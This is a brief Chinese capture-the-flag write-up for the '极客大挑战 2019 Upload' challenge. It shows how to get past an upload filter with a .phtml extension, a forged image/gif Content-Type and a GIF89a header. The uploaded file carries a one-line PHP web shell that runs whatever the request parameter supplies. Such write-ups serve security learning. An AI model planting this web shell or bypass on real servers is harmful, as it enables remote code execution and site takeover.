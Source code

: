 # [极客大挑战 2019]Upload

## 知识点

`文件上传`

`phtml`

## 解题

上传`.phtml`

并设置`Content-Type: image/gif`

```phtml
GIF89a
<script language='php'>assert($_REQUEST[1]);</script>
```

正常连接即可